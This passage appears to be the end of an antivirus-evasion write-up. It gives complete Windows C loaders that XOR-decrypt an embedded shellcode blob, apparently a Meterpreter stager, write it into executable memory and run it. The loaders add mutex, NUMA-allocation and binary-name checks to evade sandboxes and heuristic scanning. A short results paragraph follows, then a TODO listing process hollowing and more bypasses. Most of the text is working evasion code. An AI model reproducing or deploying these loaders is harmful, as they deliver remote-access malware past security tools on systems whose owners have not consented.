\x30\x2f\xe6\xac\x03\xce\x80\x2b\xe6\x95\x1e\x85\xb7\x4d\x53\x4e\x45\x2c\xe7\xb3\x2f\xc2\x57\xe4\xc4\xb2\x72\x4b\x75\x41\xb4\xb6\x18\xd3\x85\x43\xe2\xaf\x3f\xf9\x21\xfa\x64\x27\x4e\x94\xc7\xb7\x38\xa1\x16\x86\x3d\x04\x4a\x3f\xc3\xa5\x6f\x67\x5a\x33\xc2\xaf\xbe\x9e";
      char bIzhQqggPSZfzv[sizeof ncsCFtUeRdaapvgxAaPTb];
      
      int JLLxOyNdJwjKdg = 0;
      for(int vWnqVXZZFuTnQsAwryJzduxipagNTAdk=0; vWnqVXZZFuTnQsAwryJzduxipagNTAdk < sizeof ncsCFtUeRdaapvgxAaPTb; vWnqVXZZFuTnQsAwryJzduxipagNTAdk++) {
          if(JLLxOyNdJwjKdg == sizeof licCPWGlEUMUlfnzbCcwjjx -1) {
              JLLxOyNdJwjKdg=0;
          }
          bIzhQqggPSZfzv[vWnqVXZZFuTnQsAwryJzduxipagNTAdk] = ncsCFtUeRdaapvgxAaPTb[vWnqVXZZFuTnQsAwryJzduxipagNTAdk] ^ licCPWGlEUMUlfnzbCcwjjx[JLLxOyNdJwjKdg];
          JLLxOyNdJwjKdg++;
      }

      void *GSkEZFElqxdCjUfjTrQPyEW = VirtualAlloc(0, sizeof bIzhQqggPSZfzv, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
      memcpy(GSkEZFElqxdCjUfjTrQPyEW, bIzhQqggPSZfzv, sizeof bIzhQqggPSZfzv);
      ((void(*)())GSkEZFElqxdCjUfjTrQPyEW)();
    }
        
    return 1;
}
```


Test 15 (Mutex)
-------

```c
#include <windows.h>
#include <string>
using namespace std;

int main(int argc, char **argv) {
    HANDLE mutex;
    mutex = CreateMutex(NULL, TRUE, "muuuu");

    if (GetLastError() != ERROR_ALREADY_EXISTS)
    {
        system("step15.exe");
        sleep(500);
    }

    char licCPWGlEUMUlfnzbCcwjjx[] = "PPAcgoKKGqcoOWBwMsNEenJfxErMPrKuAKc";
    char ncsCFtUeRdaapvgxAaPTb[] = "\xac\x18\xc2\x87\x97\x87\x87\x4b\x47\x71\x22\x3e\x0e\x07\x10\x3f\x7c\xa1\x1f\x13\x00\x26\xc1\x34\x18\x0d\xf9\x1f\x48\x3a\xc0\x27\x61\x06\x52\x99\x18\x4e\xd4\x2d\x25\x03\xc0\x35\x21\x2b\x5e\x8f\xfb\x7e\x16\x31\x71\x62\x65\x24\xaf\x83\x6b\x39\x44\xb3\xaf\xbd\x20\x03\xfe\x13\x6b\xe8\x12\x6c\x09\x62\xb7\x2e\x1a\x2d\xc6\x09\x7b\x64\x4d\x58\xc7\x05\x4d\x73\x4e\xce\xe5\xe6\x4a\x66\x78\x0d\xf7\x8d\x24\x15\x03\x74\x91\x0f\xe8\x10\x70\xca\x2b\x7f\x3f\x02\x4a\x97\x92\x35\x22\x7e\x9e\x0a\x88\x84\x32\xc5\x71\xed\x26\x4b\xb0\x30\x74\xb2\x0c\x91\xbb\x46\xd9\x00\x4a\xa2\x68\xb0\x34\x92\x2b\x6c\x07\x6f\x4f\x34\x5a\xbe\x3a\x8f\x1a\x33\xc6\x33\x6a\x0c\x64\xbe\x2c\x27\xf3\x49\x3a\x09\xdb\x32\x57\x3c\x40\x9b\x22\xdb\x54\xc9\x2b\x66\xbf\x0a\x13\x06\x29\x3d\x36\x15\x16\x1a\x36\x14\x32\x14\x0d\xe6\x82\x6a\x27\x2a\xba\x92\x15\x11\x2b\x11\x3d\xca\x59\x8a\x1b\xaf\xbe\x9c\x3a\x27\x7a\x90\x14\x38\xdd\x18\x26\x39\x2b\x19\x28\x07\x4e\x04\x33\x26\xc3\x87\x31\x82\xb0\x01\x27\x54\x4c\x8a\x94\x18\x30\x18\xd9\xa0\x30\x3d\x22\x7a\x8b\x0a\x40\xaa\x3c\x1c\x1e\xf8\x4d\x1b\x0a\xe9\x45\x65\x6e\x4a\x99\xad\xad\x7c\x4d\x50\x72\x7a\x4c\x73\x65\x52\x66\x68\x6f\x52\x49\x5e\x7b\x7e\x47\x2b\x2b\xe6\x8e\x1e\x85\xb7\xf6\x72\x4e\x45\x28\x5f\x83\x35\x2b\x2f\x71\x1e\x19\xc8\x1c\xfc\xde\x8d\x63\x50\x50\x41\x9c\xb2\x87\xff\x4b\x47\x71\x4c\x5f\x22\x10\x26\x1c\x2e\x22\x3e\x23\x0f\x57\x72\x13\x30\x77\x44\x05\x27\x25\x3d\x26\x26\x2e\x04\x27\x08\x26\x35\x25\x35\x0f\x28\x0a\x02\x0a\x5f\x37\x1b\x11\x33\x15\x11\x18\x0f\x30\x24\x0d\x14\x29\x1c\x19\x27\x11\x37\x0e\x44\x08\x3a\x34\x1b\x1e\x07\x29\x01\x0c\x0d\x18\x0f\x01\x26\x38\x1a\x7a\x05\x4f\x0a\x47\x08\x26\x08\x0d\x12\x50\x33\x2d\x3a\x1a\x1f\x1d\x3e\x42\x27\x79\x55\x68\x3b\x77\x1a\x2b\x01\x00\x27\x2b\x18\x06\x38\x02\x05\x6f\x05\x2c\x16\x37\x21\x56\x22\x29\x2b\x1e\x2f\x0b\x2a\x60\x24\x08\x31\x13\x08\x1a\x13\x3f\x29\x12\x3f\x2d\x27\x23\x1e\x24\x01\x56\x7d\x30\x08\x12\x01\x03\x3a\x04\x2f\x09\x7a\x08\x17\x00\x02\x1e\x26\x3f\x2e\x01\x74\x3a\x2c\x27\x11\x2d\x05\x17\x20\x39\x1d\x1e\x3a\x39\x2b\x7b\x0f\x42\x3f\xc4\xb2\x1d\x1f\x24\x36\x07\x57\xb1\x16\x3a\xf5\x50\x40\xe3\xf1\x41\x4b\x63\x50\x00\x12\x30\x2e\xa8\x89\xa0\x12\x5f\x58\x90\x9a\x1f\xcb\xb1\x27\x79\x11\x0d\xec\x9f\x20\x79\x22\x17\x1a\xcd\x63\x72\x4b\x3c\xc8\xab\x09\x54\x11\x18\x2a\xdd\x1a\x0d\xd5\xc1\x71\x63\x6f\x4f\xa8\x97\x3a\x7c\xb3\x1d\x1f\x2d\xe7\xbb\x2b\x49\x8c\x3f\x7c\x99\x21\x18\x3c\x86\x89\x4e\x56\x48\x3a\x9c\xb2\xea\x8b\x3e\x58\x39\xa4\xae\xc7\x44\x42\x77\x04\xc9\x0a\xb5\x50\x8e\x4a\x66\x78\x45\x8d\x98\x18\x8d\x84\x01\x43\xa0\xc9\xb8\x05\x41\x63\x67\x3c\x12\x21\x07\x2b\x2a\xe6\x9e\x96\xa0\x67\x04\xb4\x8e\x45\x75\x6e\x4a\x2f\xc2\x1d\xd6\x1e\xb5\x72\x4b\x75\x41\xb4\xb6\x18\xc3\x12\x30\x2f\xe6\xac\x03\xce\x80\x2b\xe6\x95\x1e\x85\xb7\x4d\x53\x4e\x45\x2c\xe7\xb3\x2f\xc2\x57\xe4\xc4\xb2\x72\x4b\x75\x41\xb4\xb6\x18\xd3\x85\x43\xe2\xaf\x3f\xf9\x21\xfa\x64\x27\x4e\x94\xc7\xb7\x38\xa1\x16\x86\x3d\x04\x4a\x3f\xc3\xa5\x6f\x67\x5a\x33\xc2\xaf\xbe\x9e";
    char bIzhQqggPSZfzv[sizeof ncsCFtUeRdaapvgxAaPTb];

    int JLLxOyNdJwjKdg = 0;
    for(int vWnqVXZZFuTnQsAwryJzduxipagNTAdk=0; vWnqVXZZFuTnQsAwryJzduxipagNTAdk < sizeof ncsCFtUeRdaapvgxAaPTb; vWnqVXZZFuTnQsAwryJzduxipagNTAdk++) {
        if(JLLxOyNdJwjKdg == sizeof licCPWGlEUMUlfnzbCcwjjx -1) {
            JLLxOyNdJwjKdg=0;
        }
        bIzhQqggPSZfzv[vWnqVXZZFuTnQsAwryJzduxipagNTAdk] = ncsCFtUeRdaapvgxAaPTb[vWnqVXZZFuTnQsAwryJzduxipagNTAdk] ^ licCPWGlEUMUlfnzbCcwjjx[JLLxOyNdJwjKdg];
        JLLxOyNdJwjKdg++;
    }

    void *GSkEZFElqxdCjUfjTrQPyEW = VirtualAlloc(0, sizeof bIzhQqggPSZfzv, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    memcpy(GSkEZFElqxdCjUfjTrQPyEW, bIzhQqggPSZfzv, sizeof bIzhQqggPSZfzv);
    ((void(*)())GSkEZFElqxdCjUfjTrQPyEW)();
}
```


Several tests were conducted to verify the effectiveness of the techniques used to evade heuristic virus scans. The
results showed that the methods used in 2014 still yield results in 2023. Fortinet is also considered the most effective
AV for detecting Meterpreter (during this basics tests), a malicious tool used to remotely access a system. In order to improve the results, we
will try to combine these existing techniques to increase security.


Test 16 (NUMA && check binary name)
-------

```c
#include <windows.h>
#include <string>
using namespace std;

int main(int argc, char **argv) {
    LPVOID mfgergergerwgergem = NULL;
    mfgergergerwgergem = VirtualAllocExNuma(GetCurrentProcess(), NULL, 1000, MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE,0);

    if (mfgergergerwgergem == NULL || strstr(argv[0], "step16") == NULL)
    {
        return 1;
    }

    char licCPWGlEUMUlfnzbCcwjjx[] = "PPAcgoKKGqcoOWBwMsNEenJfxErMPrKuAKc";
    char ncsCFtUeRdaapvgxAaPTb[] = "\xac\x18\xc2\x87\x97\x87\x87\x4b\x47\x71\x22\x3e\x0e\x07\x10\x3f\x7c\xa1\x1f\x13\x00\x26\xc1\x34\x18\x0d\xf9\x1f\x48\x3a\xc0\x27\x61\x06\x52\x99\x18\x4e\xd4\x2d\x25\x03\xc0\x35\x21\x2b\x5e\x8f\xfb\x7e\x16\x31\x71\x62\x65\x24\xaf\x83\x6b\x39\x44\xb3\xaf\xbd\x20\x03\xfe\x13\x6b\xe8\x12\x6c\x09\x62\xb7\x2e\x1a\x2d\xc6\x09\x7b\x64\x4d\x58\xc7\x05\x4d\x73\x4e\xce\xe5\xe6\x4a\x66\x78\x0d\xf7\x8d\x24\x15\x03\x74\x91\x0f\xe8\x10\x70\xca\x2b\x7f\x3f\x02\x4a\x97\x92\x35\x22\x7e\x9e\x0a\x88\x84\x32\xc5\x71\xed\x26\x4b\xb0\x30\x74\xb2\x0c\x91\xbb\x46\xd9\x00\x4a\xa2\x68\xb0\x34\x92\x2b\x6c\x07\x6f\x4f\x34\x5a\xbe\x3a\x8f\x1a\x33\xc6\x33\x6a\x0c\x64\xbe\x2c\x27\xf3\x49\x3a\x09\xdb\x32\x57\x3c\x40\x9b\x22\xdb\x54\xc9\x2b\x66\xbf\x0a\x13\x06\x29\x3d\x36\x15\x16\x1a\x36\x14\x32\x14\x0d\xe6\x82\x6a\x27\x2a\xba\x92\x15\x11\x2b\x11\x3d\xca\x59\x8a\x1b\xaf\xbe\x9c\x3a\x27\x7a\x90\x14\x38\xdd\x18\x26\x39\x2b\x19\x28\x07\x4e\x04\x33\x26\xc3\x87\x31\x82\xb0\x01\x27\x54\x4c\x8a\x94\x18\x30\x18\xd9\xa0\x30\x3d\x22\x7a\x8b\x0a\x40\xaa\x3c\x1c\x1e\xf8\x4d\x1b\x0a\xe9\x45\x65\x6e\x4a\x99\xad\xad\x7c\x4d\x50\x72\x7a\x4c\x73\x65\x52\x66\x68\x6f\x52\x49\x5e\x7b\x7e\x47\x2b\x2b\xe6\x8e\x1e\x85\xb7\xf6\x72\x4e\x45\x28\x5f\x83\x35\x2b\x2f\x71\x1e\x19\xc8\x1c\xfc\xde\x8d\x63\x50\x50\x41\x9c\xb2\x87\xff\x4b\x47\x71\x4c\x5f\x22\x10\x26\x1c\x2e\x22\x3e\x23\x0f\x57\x72\x13\x30\x77\x44\x05\x27\x25\x3d\x26\x26\x2e\x04\x27\x08\x26\x35\x25\x35\x0f\x28\x0a\x02\x0a\x5f\x37\x1b\x11\x33\x15\x11\x18\x0f\x30\x24\x0d\x14\x29\x1c\x19\x27\x11\x37\x0e\x44\x08\x3a\x34\x1b\x1e\x07\x29\x01\x0c\x0d\x18\x0f\x01\x26\x38\x1a\x7a\x05\x4f\x0a\x47\x08\x26\x08\x0d\x12\x50\x33\x2d\x3a\x1a\x1f\x1d\x3e\x42\x27\x79\x55\x68\x3b\x77\x1a\x2b\x01\x00\x27\x2b\x18\x06\x38\x02\x05\x6f\x05\x2c\x16\x37\x21\x56\x22\x29\x2b\x1e\x2f\x0b\x2a\x60\x24\x08\x31\x13\x08\x1a\x13\x3f\x29\x12\x3f\x2d\x27\x23\x1e\x24\x01\x56\x7d\x30\x08\x12\x01\x03\x3a\x04\x2f\x09\x7a\x08\x17\x00\x02\x1e\x26\x3f\x2e\x01\x74\x3a\x2c\x27\x11\x2d\x05\x17\x20\x39\x1d\x1e\x3a\x39\x2b\x7b\x0f\x42\x3f\xc4\xb2\x1d\x1f\x24\x36\x07\x57\xb1\x16\x3a\xf5\x50\x40\xe3\xf1\x41\x4b\x63\x50\x00\x12\x30\x2e\xa8\x89\xa0\x12\x5f\x58\x90\x9a\x1f\xcb\xb1\x27\x79\x11\x0d\xec\x9f\x20\x79\x22\x17\x1a\xcd\x63\x72\x4b\x3c\xc8\xab\x09\x54\x11\x18\x2a\xdd\x1a\x0d\xd5\xc1\x71\x63\x6f\x4f\xa8\x97\x3a\x7c\xb3\x1d\x1f\x2d\xe7\xbb\x2b\x49\x8c\x3f\x7c\x99\x21\x18\x3c\x86\x89\x4e\x56\x48\x3a\x9c\xb2\xea\x8b\x3e\x58\x39\xa4\xae\xc7\x44\x42\x77\x04\xc9\x0a\xb5\x50\x8e\x4a\x66\x78\x45\x8d\x98\x18\x8d\x84\x01\x43\xa0\xc9\xb8\x05\x41\x63\x67\x3c\x12\x21\x07\x2b\x2a\xe6\x9e\x96\xa0\x67\x04\xb4\x8e\x45\x75\x6e\x4a\x2f\xc2\x1d\xd6\x1e\xb5\x72\x4b\x75\x41\xb4\xb6\x18\xc3\x12\x30\x2f\xe6\xac\x03\xce\x80\x2b\xe6\x95\x1e\x85\xb7\x4d\x53\x4e\x45\x2c\xe7\xb3\x2f\xc2\x57\xe4\xc4\xb2\x72\x4b\x75\x41\xb4\xb6\x18\xd3\x85\x43\xe2\xaf\x3f\xf9\x21\xfa\x64\x27\x4e\x94\xc7\xb7\x38\xa1\x16\x86\x3d\x04\x4a\x3f\xc3\xa5\x6f\x67\x5a\x33\xc2\xaf\xbe\x9e";
    char bIzhQqggPSZfzv[sizeof ncsCFtUeRdaapvgxAaPTb];

    int JLLxOyNdJwjKdg = 0;
    for(int vWnqVXZZFuTnQsAwryJzduxipagNTAdk=0; vWnqVXZZFuTnQsAwryJzduxipagNTAdk < sizeof ncsCFtUeRdaapvgxAaPTb; vWnqVXZZFuTnQsAwryJzduxipagNTAdk++) {
        if(JLLxOyNdJwjKdg == sizeof licCPWGlEUMUlfnzbCcwjjx -1) {
            JLLxOyNdJwjKdg=0;
        }
        bIzhQqggPSZfzv[vWnqVXZZFuTnQsAwryJzduxipagNTAdk] = ncsCFtUeRdaapvgxAaPTb[vWnqVXZZFuTnQsAwryJzduxipagNTAdk] ^ licCPWGlEUMUlfnzbCcwjjx[JLLxOyNdJwjKdg];
        JLLxOyNdJwjKdg++;
    }

    void *GSkEZFElqxdCjUfjTrQPyEW = VirtualAlloc(0, sizeof bIzhQqggPSZfzv, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    memcpy(GSkEZFElqxdCjUfjTrQPyEW, bIzhQqggPSZfzv, sizeof bIzhQqggPSZfzv);
    ((void(*)())GSkEZFElqxdCjUfjTrQPyEW)();
}
```


TODO
====

- Add some injection techniques like process hollowing
- Add some bypass
- Add Linux scripts